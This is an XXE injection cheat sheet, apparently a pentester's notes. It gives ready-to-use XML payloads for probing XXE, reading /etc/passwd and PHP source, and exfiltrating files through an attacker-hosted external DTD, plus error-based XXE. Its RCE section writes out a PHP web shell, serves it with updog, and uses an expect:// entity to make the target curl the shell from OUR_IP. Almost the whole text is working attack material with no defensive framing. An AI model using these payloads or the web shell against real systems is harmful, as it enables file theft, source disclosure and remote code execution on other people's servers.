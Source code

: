 ##### Identify
```xml
<!DOCTYPE email [
  <!ENTITY xxe "Pwn3d!">
]>

<object>
&xxe;
</object>
```

##### LFI
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<object>
&xxe;
</object>
```

##### Source code (PHP)
```xml
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

<object>
&xxe;
</object>
```

##### RCE
```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
updog -p 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<message></message>
</root>
```

##### LFI w/ CDATA (Vendor neutral)
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
updog -p 80
```

Injection
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

##### Error Based XXE
Create error by changing tag
```xml
<root>asd</roo>
```

Host payload
```bash
vi xxe.dtd
```
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```bash
updog -p 80
```

Inject
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP/xxe.dtd">
  %remote;
  %error;
]>
```
